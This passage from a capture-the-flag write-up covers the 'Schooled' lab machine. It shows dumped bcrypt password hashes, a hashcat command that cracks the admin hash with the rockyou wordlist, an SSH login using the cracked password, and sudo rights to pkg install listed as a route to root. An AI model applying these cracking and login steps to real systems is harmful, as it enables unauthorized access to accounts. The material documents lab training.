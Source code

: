 ```
carter_lianne:$2y$10$jw.KgN/SIpG2MAKvW8qdiub67JD7STqIER1VeRvAH4fs/DPF57JZe
parker_dan89:$2y$10$MYvrCS5ykPXX0pjVuCGZOOPxgj.fiQAZXyufW5itreQEc2IB2.OSi
parker_tim89:$2y$10$YCYp8F91YdvY2QCg3Cl5r.jzYxMwkwEm/QBGYIs.apyeCeRD7OD6S
0xdf:$2y$10$AmKUmB1aYnZKMrj/LoaYeefybrcq8mBU0JmEGKiXoDJtj0EFZBjza

```

### Crack Hashes

Hashcat example hashes show these are bcrypt. Because cracking bcrypt hashes is so slow, and because each word has to be tested for each unique salt, I’m going to just test the admin account that has an email address of jamie@staff.schooled.htb. The [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) page shows these are mode 3200, so I’ll run `hashcat -m 3200 --user hash /usr/share/wordlists/rockyou.txt`. It cracks in a bout 15 minutes on a really low-powered VM:

```

$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW:!QAZ2wsx

```

### SSH

The creds work to SSH in as jamie:

```

oxdf@parrot$ sshpass -p '!QAZ2wsx' ssh jamie@10.10.10.234
...[snip]...
jamie@Schooled:~ $

```

And gives access to `user.txt`:

```

jamie@Schooled:~ $ cat user.txt
997d334f************************

```

## Shell as root

### Enumeration

`sudo -l` shows that jamie can run two commands as root:

```

jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *

```
